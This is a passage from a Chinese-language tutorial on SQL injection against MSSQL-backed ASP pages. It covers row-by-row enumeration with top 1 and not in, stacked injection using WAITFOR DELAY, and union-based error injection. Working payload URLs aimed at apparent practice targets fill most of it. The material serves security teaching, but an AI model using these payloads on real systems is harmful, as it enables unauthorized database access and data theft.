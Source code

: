 ### 排序&获取下一条数据

mssql数据库中没有limit排序获取字段，但是可以使用top 1来显示数据中的第一条数据，后面与Oracle数据库注入一样，使用<>或not in 来排除已经显示的数据，获取下一条数据。但是与Oracle数据库不同的是使用not in的时候后面需要带上('')，类似数组，也就是不需要输入多个not in来获取数据，这可以很大程序减少输入的数据量，如下：

```php
#使用<>获取数据
http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,id,name,null from dbo.syscolumns where id='5575058' and name<>'id' and name<>'username'-- qwe
#使用not in获取数据
http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,id,name,null from dbo.syscolumns where id='5575058' and name not in ('id','username')-- qwe
```

![](https://p2.ssl.qhimg.com/t015afc1e1d3880b015.png)

### 堆叠注入

在SQL中，执行语句是通过;分割的，如果我们输入的;被数据库带入执行，那么就可以在其后加入sql执行语句，导致多条语句一起执行的注入，我们将其命名为堆叠注入。具体情况如下，很明显两条语句都进行了执行。

```php
http://192.168.150.4:9001/less-1.asp?id=1';WAITFOR DELAY '0:0:5';-- qwe
```

![](https://p5.ssl.qhimg.com/t0181df866952842a55.png)

# 0x03 显错注入

## 1、判断当前字段数

```php
http://219.153.49.228:40574/new_list.asp?id=2 order by 4
```

![](https://p5.ssl.qhimg.com/t0163e343ea44015455.png)

```php
http://219.153.49.228:40574/new_list.asp?id=2 order by 5
```

![](https://p4.ssl.qhimg.com/t015ef0881aee65eff3.png)
通过order by报错情况，可以判断出当前字段为4。

## 2、联合查询，获取显错点

1、首先因为不知道具体类型，所以还是先用null来填充字符

```php
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,null,null,null -- qwe
```
![](https://p2.ssl.qhimg.com/t01c956d559eaff2a4a.png)
2、替换null为'null'，获取显错点
